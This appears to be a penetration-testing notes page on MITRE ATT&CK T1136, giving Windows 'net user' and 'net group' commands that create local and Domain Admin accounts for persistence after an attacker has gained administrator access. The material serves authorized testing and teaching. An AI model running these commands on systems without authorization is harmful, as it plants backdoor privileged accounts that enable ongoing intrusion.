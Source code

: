 ```yaml
---
description: MITRE ATT&CK, Persistence, Technique T1136
---
```


# Create Account

### Local Account

After gaining administrator access to the system run the following command to create a local user account:&#x20;

```powershell
net user parzival password123 /add
```

We then have the option of adding this account to the local administrators group:

```bash
net localgroup administrators parzival /add
```

Finally, we can delete this account once it is no longer needed:

```bash
net user parzival /del
```

### Domain Account

After obtaining Domain Administrator access in an engagement I like to create a Domain Administrator account to perform all other post exploitation activities from.&#x20;

Steps from a domain controller to create a domain administrator account:

```powershell
net user parzival password123 /add /domain
net group "Domain Admins" parzival /add /domain
net user parzival /comment:"Account created for authorized pentest. Created on XX/XX/XXXX"
net user parzival /expires:XX/XX/XXXX
```
